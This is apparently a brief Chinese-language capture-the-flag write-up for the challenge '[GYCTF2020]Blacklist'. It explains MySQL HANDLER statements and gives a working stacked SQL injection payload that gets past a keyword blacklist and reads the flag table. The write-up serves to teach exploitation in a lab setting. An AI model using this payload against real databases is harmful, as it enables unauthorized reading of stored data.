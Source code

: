 # [GYCTF2020]Blacklist

## 知识点

`堆叠注入`

`handler`

## 解题

需要用到HANDLER：

> 例如，**HANDLER tbl_name OPEN**打开一张表，无返回结果，实际上我们在这里声明了一个名为tb1_name的句柄。
>
> 通过**HANDLER tbl_name READ FIRST**获取句柄的第一行，通过**READ NEXT**依次获取其它行。最后一行执行之后再执行NEXT会返回一个空的结果。
>
> 通过**HANDLER tbl_name CLOSE**来关闭打开的句柄。

这道题照葫芦画瓢payload如下：

```sql
1'; handler `FlagHere` open as `a`; handler `a` read next;#
```

[参考](https://www.shawroot.cc/1115.html)
